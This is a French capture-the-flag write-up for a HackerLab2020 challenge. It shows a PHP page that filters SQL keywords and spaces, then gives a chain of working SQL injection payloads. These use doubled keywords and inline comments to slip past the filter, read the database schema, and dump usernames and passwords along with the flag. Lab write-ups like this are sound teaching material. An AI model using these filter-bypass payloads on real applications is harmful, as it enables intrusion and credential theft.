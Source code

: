 # HackerLab2020 - Challenge 1

## Challenge
>COVID_INJECTION
Les listes noires, c'est pas la meilleure option contre les "covid_injection".
L'ANSSI l'a toujours répété aux développeurs. Blacklister les simples et doubles apostrophes ne >protège pas contre le "covid_injection".
Montre à ces développeurs qu'ils ont tort de ne pas suivre les directives.

## Solution
Primo, nous avons pris connaissance du code source de l'application mis à notre disposition
```php
<?php
if (isset($_GET['source'])) {
    die(highlight_file(__FILE__));
}

require("conf/vuln.conf.php");
error_reporting(0);

if (isset($_GET['q'])) {
    $covid_vaccine = array('union', 'select', 'or', 'from', 'where');
    foreach ($covid_vaccine as $banned) {
        $_GET['q'] = preg_replace('/' . $banned . '/i', '', $_GET['q']);
    }
    if (strpos($_GET['q'], " ") !== false) die("covid_injection détecté");
}

?>
```
Nous remarquons que pour réussir ce challenge, nous devons faire de telle sorte que les mots clés *union*, *select*, *or*, *from*, *where* et  l'espace _" "_ échapperont au control des fonctions *preg_replace* et *strpos*

Ainsi, nous avons effectué plusieurs requêtes SQL avant d'atteindre le but.

Premier payload: ```'OORROR(1=1)OORROR'a'='```

Rendu:

![Rendu](Images/First-payload.png)

Le rendu ne nous révèle aucun flag. On a agit donc autrement à travers les étapes ci-après:

* **Identification des colonnes vulnérables**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,3,4/**/#```

Rendu:

![Rendu](Images/vuln-columns.png)

On peut donc retenir que les colonnes 2, 3 et 4 sont vulnérables.

* **Identification de la version de SQL**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,222,version(),444/**/#```

Rendu:

![Rendu](Images/sql-version.png)

La version du SQL est donc _8.0.1-dmr_

* **Identification du nom de la base de données**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,222,version(),database()/**/#```

Rendu:

![Rendu](Images/database-name.png)

Nom de la base de données: covid_injection

* **Identification les tables de la base de données**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,group_concat(table_name),4/**/frfromom/**/infoorrmation_schema.tables/**/whwhereere/**/table_schema=database()/**/#```

Rendu:

![Rendu](Images/tables-name.png)

Nous découvrons par là une autre nouvelle table dont on n\'avait pas connaissance qu'est _users_

* **Identification des colonnes de la table _users_**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,group_concat(column_name),4/**/frfromom/**/infoorrmation_schema.columns/**/whwhereere/**/table_schema=database()/**/and/**/table_name='users'/**/#```

Rendu:

![Rendu](Images/column_name.png)

Nous pouvons remarquer qu'en dehors des colonnes de la table _hack_hackerlab_ , nous avons d'autres colonnes qui sont pour la table users.

* **Affichage du contenu de la table _users_**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,group_concat(id89l,passwoorrd,username),4/**/frfromom/**/users/**/#```

Rendu:

![Rendu](Images/flag.png)

Nous obtenons ainsi le flag

```FLAG: CTF_Y0uAreAwas0m3_b__t___es```

Cependant nous avons le début d'une clé publique. L'intégralité de la clé ne s'est pas affichéé à cause de la limite de la fonction _group_concat_. Alors nous sommes obligés de modifier notre requête.

Nouveau Payload: ```inspiv'/**/uniunionon/**/all/**/seleselectct/**/1,passwoORrd,222,username/**/frfromom/**/users/**/#```

Rendu:

![Rendu](Images/complete.png)

